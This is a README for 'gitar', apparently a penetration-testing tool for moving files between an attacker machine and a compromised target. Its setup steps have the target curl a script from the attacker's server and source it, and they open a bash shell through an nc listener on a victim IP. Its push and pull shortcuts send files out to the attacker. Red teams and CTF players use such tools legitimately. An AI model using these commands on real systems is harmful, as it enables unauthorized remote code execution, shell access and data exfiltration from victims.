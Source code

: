 <h1 align=center> 🎸 gitar ⇆</h1>

----
<div align="center">
<code>
<b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from the <q>target machine</q>

<b>~></b><b><i> No installation needed</i></b> on <q>target machine</q>
</code>
<img src="https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif">
</div>



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a di1rectory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

----

## Set up

### Pre-requisites

* HTTP Network connectivy between attacker & target machine
* On target machine: `curl` 
	* `tar` for upload directory 
* On attacker machine: `xclip` to copy command on clipboard (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]`
 2. <sup>(Target machine)</sup> get shortcuts from `/alias` endpoint and source them. The one-liner corresponding would be provided in 1. step: `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `./gitar -e [server_reachable_ip] -p [server_port]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `CTRL+V` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not beneifit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Download directory support 
- Handle case when curl isn't on target machine (wget version?)
- Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
